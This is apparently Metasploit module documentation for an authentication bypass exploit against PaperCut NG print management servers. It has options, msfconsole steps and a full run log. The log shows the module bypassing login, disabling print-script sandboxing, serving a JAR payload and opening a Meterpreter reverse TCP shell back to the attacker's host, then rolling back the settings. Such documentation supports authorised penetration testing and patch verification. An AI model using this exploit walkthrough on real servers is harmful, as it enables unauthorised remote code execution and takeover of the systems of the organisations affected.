 *Caveat: When first starting the server or after completing the installation, at least one user needs to login. I think this has something
to do with getting the license manager into the correct state (i.e. loading the license). When this is not yet done then the Authentication
Bypass is still functional leading to a "Target Vulnerable" message during `check`. However, when attempting to select the
"\[Template Printer\]" a redirect to the About page occurs instead. Ensuring a logon can be done by using the "Login" button presented on
the SetupCompleted page used for the bypass. This scenario is not covered in the module as it is unlikely to be an issue on any network
that is currently in use.*


## Options

### TARGETURI

Path to the papercut application. Default is `/app`.

### HTTPDELAY

Number of seconds the web server will wait before termination. Default is 10.


## Verification Steps

1. `./msfconsole -q`
2. `use multi/http/papercut_ng_auth_bypass`
3. `set RHOSTS [target]`
4. `run`

## Scenarios

### Tested on Linux x64 with PaperCut NG Version 22.0.8.65201
```
msf > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=node0cwd0h7aut351pzjcifwvdyg25.node0
[+] The target is vulnerable.
[*] Setting server option 'print-and-device.script.enabled' to 'Y') was 'N'
[*] Setting server option 'print.script.sandboxed' to 'N') was 'Y'
[*] Using URL: http://10.0.4.101:8080/rYrjrI0
[*] Server started.
[*] Sending payload for requested uri: /rYrjrI0.jar
[*] Sending payload for requested uri: /rYrjrI0.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:46224) at 2023-05-11 01:13:29 +0000
[*] Server stopped.
[*] rolling back 'print.script.sandboxed' to 'Y'
[*] Setting server option 'print.script.sandboxed' to 'Y') was 'N'
[*] rolling back 'print-and-device.script.enabled' to 'N'
```